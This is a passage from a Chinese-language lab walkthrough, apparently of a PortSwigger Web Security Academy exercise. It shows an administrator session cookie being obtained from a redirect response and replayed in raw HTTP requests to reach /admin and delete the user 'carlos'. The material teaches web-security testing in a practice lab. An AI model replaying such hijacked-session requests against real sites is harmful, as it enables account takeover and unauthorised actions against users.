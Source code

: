 ```plain
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

[![](assets/1705287960-fd2632bfc61d11f10099652e8f263454.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104051-d5e64e34-b02a-1.png)  
Step 3：随后我们直接访问复制会话 cookie 并使用它发送以下请求

```plain
GET /admin HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

[![](assets/1705287960-1c742cbbead6e23bef9d1c7e43bb08bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104118-e60c45ca-b02a-1.png)

Step 4：从上面我们可以看到成功利用 admin 的会话进入到控制面板中去，随后我们继续使用获取到的会话进行用户的删除操作

```plain
GET /admin/delete?username=carlos HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```
